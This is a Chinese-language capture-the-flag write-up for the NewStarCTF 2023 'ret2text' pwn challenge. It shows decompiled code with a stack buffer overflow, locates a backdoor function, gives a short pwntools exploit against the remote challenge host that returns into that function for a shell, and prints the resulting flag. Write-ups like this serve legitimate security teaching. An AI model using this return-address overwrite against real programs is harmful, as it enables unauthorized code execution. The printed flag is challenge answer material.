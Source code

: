 # \[NewStarCTF 2023\] ret2text

## 前置工作

下载附件，用 IDA 64 打开，找到主函数并反汇编，得到如下伪代码

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf[32]; // [rsp+0h] [rbp-20h] BYREF

  init(argc, argv, envp);
  puts("Welcome to NewStar CTF!!");
  puts("Show me your magic");
  read(0, buf, 0x100uLL);
  return 0;
}
```

发现 buf 能被接受 0x100 个字节，但长度只有 0x20 字节，会出现栈溢出

## 找 `/bin/sh`

按 Shift + F12 打开字符串查找，找到关键字符串 `/bin/sh`，进入后按 Ctrl + X 找到函数，再按一次 F5 反汇编，找到了关键函数 `int backdoor()`，该函数的地址为 `0x4011FB`

## 编写 Exp

```python
from pwn import *

r = remote("node4.buuoj.cn", 29897)
backdoor_addr = 0x4011FB  # 函数 backdoor() 的地址
payload = b"A"*(0x20+8) + pack(backdoor_addr, 64) # 20 是栈，8 是 dup
r.sendline(payload)
r.interactive()
```

## 攻入靶机

获得权限后，`ls` 和 `cat flag` 一条龙得出最后结果 `flag{efcf1300-9ac4-4a30-84d9-ca717d570428}`
